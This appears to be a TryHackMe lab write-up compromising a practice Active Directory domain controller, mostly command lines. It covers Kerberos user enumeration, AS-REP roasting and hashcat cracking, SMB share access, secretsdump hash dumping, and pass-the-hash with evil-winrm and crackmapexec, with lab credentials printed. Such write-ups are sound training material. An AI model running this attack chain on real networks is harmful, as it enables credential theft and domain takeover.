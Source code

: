 99% of Corporate networks run off of AD. But can you exploit a vulnerable Domain Controller?

## Enumeration
Starting off with an nmap scan on the target (I have already exported the IP address of the target to the variable $target)

```
nmap -p- -sV -sC $target --open
```

So we can see the Active Directory domain: spookysec.local

We can see that this is an AD with typical AD related services running such as Kerberos, SMB, RPC and LDAP. I will enumerate these services one-by-one to see if we can get a foothold.

### SMB
Nmap revealed SMB ports open on 149, 445. So let’s enumerate SMB further. We can use:

- enum4linux
- Nmap scripts specifically for SMB enumeration.
- crackmapexec

I am running these scans concurrently.

```
enum4linux -smb $target

nmap -p139,445 --script=smb-enum-shares -sC $target

crackmapexec smb $target
```

The SMB nmap script does not reveal anything that we have not already seen from the original nmap scan.

Why is port 445 open? Basic domain functions usually require Port 445 to be open. These functions include remote file access, software deployment, and system management.

#### crackmapexec
crackmapexec reveals some results about the target. This tool can also be used for brute-forcing (if we find some credentials)

Key info:

- Hostname: ATTACKTIVEDIREC
- Domain: spookysec.local
- OS: Windows 10 / Server 2019 Build 17763

#### enum4linux
The enum4linux scan gave us a Domain SID and the Netbios Domain Name of the machine:

SID: Security Identifiers. These identifiers ensure domains are distinguishable.

## Kerberos
This TryHackMe box comes with a user and password list for brute-forcing. Kerbrute is a tool used to enumerate valid user names (find out what usernames are legitimate and exist on the target system).

This is the best guide that I’ve found for installing and executing Kerbrute: https://www.hackingarticles.in/a-detailed-guide-on-kerbrute/

```
sudo ./kerbrute_linux_amd64 userenum — dc $target -d spookysec.local userlist.txt
```

The full output below shows a list of legitimate Kerberos user accounts that exist on this domain. That’s great for enumeration because we have more information to help us get a foothold.

Usernames such as svc-admin, administrator, backup are notable findings with potentially elevated privileges.

## ASREPRoasting
ASReproasting occurs when a user account has the privilege “Does not require Pre-Authentication” set. This means that the account does not need to provide valid identification before requesting a Kerberos Ticket on the specified user account.

AS-REP = Authentication Server Reply

Roasting = Slang for extracting a Kerberos-encrypted value (like a hash) that can be cracked offline

We can use impacket to attempt ASREPRoasting to retrieve Kerberos tickets. Starting off with the GetNPUsers.py script.

But what does it mean? It’s important to understand why we are using this script.

GetNPUsers.py = Get No Preauthentication Users

```
python3 examples/GetNPUsers.py spookysec.local/ -no-pass -usersfile /home/kali/Downloads/userlist.txt -dc-ip 10.10.28.119
```

We can see below that I’ve found some information. I now know, that James can’t be AS-REP roasted.

User james doesn’t have UF_DONT_REQUIRE_PREAUTH set

A few minutes later I’ve found something.

```
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:[long hash]
```

We can query a kerberos ticket from the user: svc-admin without a password. In other words, we can AS-REP roast this user.

We can also do a lookup for this hash type on Hashcat’s Wikipedia page.

- Hash type: Kerberos 5, etype 23, AS-REP
- Hash-mode: 18200

We can use hashcat to crack the hash. Hashes cannot be reversed unlike encryption/decryption. Hashes are rather compared against a database of known hashes and this how they are ‘cracked’.

Hashcat scan:

```
hashcat -m 18200 hash.txt wordlist.txt
```

Here’s the results of the scan, where the hash has been cracked successfully: `management2005`

**Username:** svc-admin  
**Password:** management2005

---

## SMBCLIENT
Administrative shares like C$, ADMIN$, and IPC$ are always visible to authenticated users on Windows systems by design. However, visibility doesn't necessarily mean access is possible.

We can use these credentials to dig for further information. For example, we know that the target has SMB services running on Port 139 and 445. There is a high possibility of SMB shares being shared publicly.

### Enumerate SMB shares:

```
smbclient -L \\$target -U 'svc-admin'
# or without prompt:
smbclient -L \\$target -U svc-admin%management2005
```

### Connect to a share:

```
smbclient \\$target\backup -U svc-admin%management2005
```

GUI Method (Kali):
- Open Files
- Type: `smb://$target/backup`
- Enter username: `svc-admin`, password: `management2005`

Use `dir`, `ls`, `get` to interact.

### Example:
`backup_credentials.txt` file contains a base64 encoded string:

```bash
base64 -d backup_credentials.txt
```

---

## Pass the Hash

Use impacket’s `secretsdump.py` with the backup account:

```bash
python3 examples/secretsdump.py spookysec.local/backup:backup2517860@$target
```

This reveals NTLM hashes including Administrator:

**Administrator hash:**  
`0e0363213e37b94221497260b0bcb4fc`

---

## Evil WinRM (PTH)

```bash
evil-winrm -H 0e0363213e37b94221497260b0bcb4fc -i 10.10.157.141 -u Administrator
```

Use `cd`, `dir`, `type` to navigate and capture the flag.

---

## Netexec (alt to secretsdump)

```bash
netexec smb 10.10.157.141 -u backup -p backup2517860 --ntds
```

## Crackmapexec for Remote Commands

```bash
crackmapexec smb 10.10.157.141 -u Administrator -H 0e0363213e37b94221497260b0bcb4fc -x "whoami"
crackmapexec smb 10.10.157.141 -u Administrator -H 0e0363213e37b94221497260b0bcb4fc -X "whoami"
```

---

Thanks for reading. If you have questions, let me know. If you want to share something or get in touch, comment below.
